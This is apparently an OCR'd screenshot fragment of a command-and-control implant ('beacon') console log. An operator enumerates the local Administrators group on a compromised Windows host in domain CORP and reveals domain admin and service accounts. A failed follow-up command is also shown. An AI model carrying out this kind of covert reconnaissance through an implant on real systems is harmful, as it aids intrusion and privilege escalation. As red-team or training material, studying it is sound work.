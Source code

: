 ```


Logon hours allowed          All



Local Group Memberships      *Administrators       *Users                

Global Group memberships     *None                 

The command completed successfully.




[10/06 16:37:30] beacon> shell net localgroup Administrators
[10/06 16:37:30] [*] Tasked beacon to run: net localgroup Administrators
[10/06 16:37:35] [+] host called home, sent: 60 bytes
[10/06 16:37:35] [+] received output:
Alias name     Administrators

Comment        Administrators have complete and unrestricted access to the computer/domain



Members



-------------------------------------------------------------------------------

Administrator

CORP\Domain Admins

CORP\svc_opmanager

justalocaladmin

The command completed successfully.




[10/06 16:38:04] beacon> shell net localgroup "CORP\Domain Admins"
[10/06 16:38:04] [*] Tasked beacon to run: net localgroup "CORP\Domain Admins"
[10/06 16:38:06] [+] host called home, sent: 66 bytes
[10/06 16:38:06] [+] received output:
The syntax of this command is:



NET LOCALGROUP

[groupname [/COMMENT:"text"]] [/DOMAIN]

              groupname {/ADD [/COMMENT:"text"] | /DELETE}  [/DOMAIN]

              groupname name [...] {/ADD | /DELETE} [/DOMAIN]




```